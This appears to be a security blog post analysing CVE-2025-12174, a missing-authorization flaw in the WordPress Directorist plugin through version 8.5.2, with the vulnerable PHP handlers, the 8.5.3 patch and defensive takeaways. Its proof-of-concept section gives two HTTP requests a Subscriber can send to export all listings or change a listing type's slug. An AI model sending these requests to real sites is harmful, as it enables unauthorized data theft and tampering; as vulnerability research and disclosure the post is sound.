

--- 
title: CVE-2025-12174 Analysis & POC
description: Security Vulnerability in WordPress Directorist Plugin.
date: 2025-12-13 19:00:00 +0700
categories: [CVE Analysis]
tags: [analyst, plugin, broken access control]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---

<!--more-->

## CVE & Basic Info
The **Directorist: AI-Powered Business Directory Plugin with Classified Ads Listings** plugin for WordPress contains an unauthorized access vulnerability due to missing permission validation for the AJAX actions `directorist_prepare_listings_export_file` and `directorist_type_slug_change` in all versions up to **8.5.2**. This allows an authenticated attacker with **Subscriber or higher** privileges to export listing data and change the directorist slug.

* **CVE ID**: [CVE-2025-12174](https://www.cve.org/CVERecord?id=CVE-2025-12174)
* **Vulnerability Type**: Broken Access Control
* **Affected Versions**: <= 8.5.2
* **Patched Versions**: 8.5.3
* **CVSS severity**: Medium (6.5)
* **Required Privilege**: Subcriber
* **Product**: [WordPress Directorist Plugin](https://wordpress.org/plugins/directorist/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Directorist**:  
    * `8.5.2` – **vulnerable**  
    * `8.5.3` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis 
The plugin registers two action hooks:

```php {title="class-ajax-handler.php v8.5.2" hl_lines=[] data-open=true}
add_action( 'wp_ajax_directorist_prepare_listings_export_file', [ $this, 'handle_prepare_listings_export_file_request' ] );
add_action( 'wp_ajax_directorist_type_slug_change', [ $this, 'directorist_type_slug_change' ] );
```

The `wp_ajax_` hooks are only for logged-in users (from Subscriber upward). These actions call their respective handler functions.

handler functions.

**1. `wp_ajax_directorist_prepare_listings_export_file`:**

```php {title="class-listings-export.php v8.5.2" hl_lines=[9] data-open=true}
public function handle_prepare_listings_export_file_request() {
    if ( ! directorist_verify_nonce() ) {
        $data['success'] = false;
        $data['message'] = __( 'Something is wrong! Please refresh and retry.', 'directorist' );

        return wp_send_json( $data );
    }

    $file = Directorist\Listings_Exporter::get_prepared_listings_export_file();

    wp_send_json( $file );
}
```

This function returns all **Directory Listings** in a `.csv` file generated by `get_prepared_listings_export_file()`:

```php {title="class-listings-export.php v8.5.2" hl_lines=[] data-open=true}
public static function get_prepared_listings_export_file() {
    $filename      = "listings-export-data";
    $file_name     = "{$filename}.csv";
    $file_contents = self::get_listings_data_as_csv_content();

    $old_file_id = get_directorist_option( 'directorist_export_attachent_id', '', true );
    if ( ! empty( $old_file_id ) ) {
        wp_delete_attachment( $old_file_id, true );
    }

    $upload_dir = wp_upload_dir();

    if ( wp_mkdir_p( $upload_dir['path'] ) ) {
        $file = $upload_dir['path'] . '/' . $file_name;
    } else {
        $file = $upload_dir['basedir'] . '/' . $file_name;
    }

    file_put_contents( $file, $file_contents );

    $wp_filetype = wp_check_filetype( $file_name, null );
    $attachment = [
        'post_mime_type' => $wp_filetype['type'],
        'post_title'     => sanitize_file_name( $filename ),
        'post_content'   => '',
        'post_status'    => 'inherit'
    ];

    $attach_id = wp_insert_attachment( $attachment, $file );
    $attach_url = wp_get_attachment_url( $attach_id );

    update_directorist_option( 'directorist_export_attachent_id', $attach_id );

    return [ 'success' => true, 'file_url' => $attach_url ];
}
```

The returned path is the **`file_url`** value in the resulting array:

```php
return [ 'success' => true, 'file_url' => $attach_url ];
```

Specifically:

* The CSV file is created in the WordPress uploads directory, e.g.:  
  **`wp-content/uploads/2025/01/listings-export-data.csv`**

* Then the file is registered as an **attachment**, and WordPress generates a **public access URL**, which is returned via `file_url`, e.g.:  
  **`https://example.com/wp-content/uploads/2025/01/listings-export-data.csv`**

> [!INFO]  
> Directory Listings can be found at:  
> `http://localhost/wp-admin/edit.php?post_type=at_biz_dir`  
> 

**2. `wp_ajax_directorist_type_slug_change`:**

```php {title="class-ajax-handler.php v8.5.2" hl_lines=[33] data-open=true}
public function directorist_type_slug_change() {
    if ( ! directorist_verify_nonce() ) {
        wp_send_json(
            [
                'error' => __( 'Session expired, please reload the window and try again.', 'directorist' ),
            ]
        );
    }

    $type_id     = isset( $_POST['type_id'] ) ? sanitize_key( $_POST['type_id'] ) : '';
    $update_slug = isset( $_POST['update_slug'] ) ? sanitize_key( $_POST['update_slug'] ) : '';

    $directory_slugs = [];
    $listing_types   = directorist_get_directories();

    if ( $listing_types ) {
        foreach ( $listing_types as $listing_type ) {
            $directory_slugs[] = $listing_type->slug;
            if ( $type_id == $listing_type->term_id ) {
                $old_slug = $listing_type->slug;
            }
        }
    }

    if ( in_array( $update_slug, $directory_slugs ) ) {
        wp_send_json(
            [
                'error'    => __( 'This slug already in use.', 'directorist' ),
                'old_slug' => ! empty( $old_slug ) ? $old_slug : '',
            ]
        );
    } else {
        $update_type_slug = wp_update_term( $type_id, ATBDP_TYPE, [ 'slug' => $update_slug ] );
        if ( $update_type_slug ) {
            wp_send_json(
                [
                    'success' => __( 'Slug changes successfully.', 'directorist' ),
                ]
            );
        }
    }
}
```

This function allows changing the slug of any Listing Type with `type_id` and `update_slug` obtained from the POST request.

---

Notice that both callbacks call `directorist_verify_nonce` to enforce CSRF protection using the default action `directorist_nonce`:

```php {title="helper-functions.php v8.5.2"}
function directorist_verify_nonce( $nonce_field = 'directorist_nonce', $action = '' ) {
    $nonce = ! empty( $_REQUEST[ $nonce_field ] ) ? directorist_clean( wp_unslash( $_REQUEST[ $nonce_field ] ) ) : '';
    return wp_verify_nonce( $nonce, ( $action ? $action : directorist_get_nonce_key() ) );
}
```

The `directorist_nonce` is always available for logged-in users.

> [!BUG]  
> **The vulnerability arises due to missing any capability/permission check.**  
> Any authenticated user (Subscriber or higher) can call the endpoint to obtain all **Directory Listings** or modify the slug of any Listing Type, even though these actions should be restricted to admins.

**The patch (v8.5.3)** adds a capability check to the callbacks:

```php
if ( ! current_user_can( 'manage_atbdp_options' ) ) {
    wp_send_json_error(
        [
            'error' => __( 'You are not allowed to modify directory slugs.', 'directorist' ),
        ],
        403
    );
}
```

The `manage_atbdp_options` permission is a **custom capability**, assigned to Administrator via:

```php
$wp_roles->add_cap( 'administrator', 'manage_atbdp_options' );
```

Meaning only Administrators may perform actions such as slug changes or data export, completely fixing the missing capability validation.

## Flow

graph TD

A["Logged-in user (Subscriber or higher)"] --> B["Send AJAX request to wp-admin/admin-ajax.php with action=directorist_prepare_listings_export_file or action=directorist_type_slug_change"]
B --> C["wp_ajax_* hook is triggered"]
C --> D["Callback executes"]
D --> E{"Is nonce valid?"}
E -- No --> F["Return error"]
E -- Yes --> G["Process request"]
G --> H{"Is capability checked?"}
H -- No --> I["Subscriber or higher can export all listings or change any directory slug"]
I --> J["Broken Access Control"]


## Proof of Concept (PoC)
1. Login with a Subscriber account and obtain the `directorist_nonce` from the response  


2. Send request:
    * Retrieve **Directory Listings**
    ```http
    POST /wp-admin/admin-ajax.php HTTP/1.1
    Host: localhost 
    Cookie: sub_cookie
    ...
    action=directorist_prepare_listings_export_file&directorist_nonce=22a1e53ab7
    ```
    * Change the slug of any Listing Type
    ```http
    POST /wp-admin/admin-ajax.php HTTP/1.1
    Host: localhost 
    Cookie: sub_cookie
    ...
    action=directorist_type_slug_change&directorist_nonce=22a1e53ab7&type_id=580&update_slug=payload
    ```

## Conclusion
The vulnerability in **Directorist <= 8.5.2** arises from the **lack of authorization checks** on two privileged AJAX actions. Although the plugin uses nonces to defend against CSRF, this does not act as a permission check, resulting in **any authenticated user**, including *Subscriber*, being able to export complete listing data or arbitrarily change slugs — actions intended only for Administrators.  
The patch in **v8.5.3** completely fixes the issue by adding a `manage_atbdp_options` capability check, restoring proper authorization boundaries.

## Key Takeaways

* **Nonce is not a permission check**: nonce only prevents CSRF, not unauthorized low-privileged actions.
* **WordPress AJAX is a common attack surface**: every `wp_ajax_` must implement explicit capability checks.
* **Broken Access Control often arises from a missing single line**, not complex logic.
* **Custom capability** (like `manage_atbdp_options`) is effective for fine-grained permission control.
* Always validate both **user authentication** and **permissions** before allowing administrative actions.

## References
[Broken Access Control](https://patchstack.com/academy/wordpress/vulnerabilities/broken-access-control/)

[WordPress Directorist Plugin <= 8.5.2 is vulnerable to Broken Access Control](https://patchstack.com/database/wordpress/plugin/directorist/vulnerability/wordpress-directorist-plugin-8-5-2-missing-authorization-to-authenticated-subscriber-data-export-and-slug-update-vulnerability)